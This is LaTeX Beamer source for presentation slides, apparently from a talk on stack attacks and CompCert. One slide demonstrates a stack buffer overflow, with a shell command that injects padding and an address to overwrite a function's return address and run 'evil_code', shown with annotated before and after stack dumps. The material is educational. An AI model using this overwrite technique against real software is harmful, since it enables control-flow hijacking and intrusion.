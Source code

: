 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]{Example (2/2)}
\textcolor{gray}{terminal\$~} ./buffer \$(python -c 'print 13*"a"+"\textbackslash{x7b}\textbackslash{x84}\textbackslash{x04}\textbackslash{x08}"') \\
\textcolor{red}{Address of evil\_code = 0x0804847b} \\
Stack before: \hfill \break
0xf7712000    \hfill \break
0xff957998    \hfill \break
0xf7593d26    \hfill \break
0xf7712d60    \hfill \break
0x0804868c    \hfill \break
0xff957978    \hfill \break
0xf7593d00    \hfill \break
0xf7713dc0    \hfill \break
0xf77828f8    \hfill \break
0xff957998    \hfill \break
0x08048510    ~~~~~~~~~~~~~~~~\textcolor{blue}{//Return address of \textit{foo}}\hfill \break
              \hfill \break
Stack after : \hfill \break
0xff958161    \hfill \break
0xff957998    \hfill \break
0xf7593d26    \hfill \break
0xf7712d60    \hfill \break
0x0804868c    \hfill \break
0xff957978   			   ~~~~~~~~~~~~~~~~\textcolor{blue}{//Buffer overflow}\hfill \break
\textcolor{red}{0x61}593d00~~~~~~~~~~~~~~~~\textcolor{blue}{//``a''   } \hfill \break
\textcolor{red}{0x61616161}~~~~~~~~~~~~~~~~\textcolor{blue}{//``aaaa''} \hfill \break
\textcolor{red}{0x61616161}~~~~~~~~~~~~~~~~\textcolor{blue}{//``aaaa''} \hfill \break
\textcolor{red}{0x61616161}~~~~~~~~~~~~~~~~\textcolor{blue}{//``aaaa''} \hfill \break
\textcolor{red}{0x0804847b}~~~~~~~~~~~~~~~~\textcolor{blue}{//"\textbackslash{x7b}\textbackslash{x84}\textbackslash{x04}\textbackslash{x08}",  \textit{evil\_code} address \\}
\\
Argh, we got hacked! ~~\textcolor{blue}{//Success! \textit{evil\_code} was executed}\\
Segmentation fault (core dumped)

\end{frame}
\begin{frame}[c]{Modern ROP attacks}
\end{frame}

\section{Overview of our approach}
\label{sec:Overview of our approach}

\begin{frame}[c]{Goals of our approach}
\end{frame}

\begin{frame}[c]{CompCert stack}
\end{frame}
\end{document}
